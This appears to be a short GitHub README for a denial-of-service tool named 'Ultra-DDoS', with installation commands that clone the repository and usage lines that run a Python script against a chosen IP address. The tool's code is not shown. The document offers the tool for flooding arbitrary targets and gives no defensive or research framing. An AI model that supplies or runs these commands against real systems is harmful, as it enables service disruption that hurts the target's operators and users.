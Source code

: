 then
> cd Ultra-DDoS

> python morrix.py -s [ip Address] -t 135
example:

> python morrix.py -s 123.45.67.89 -t 135

# Installation
```pkg update && pkg upgrade

git clone https://github.com/ItsMorrix/UltraDDoS

cd Ultra-DDoS

python morrix.py
```
# Usage:
> python morrix.py -s [IP address] -t 135

example: python morrix.py -s 127.0.0.1 -t 135

=============================

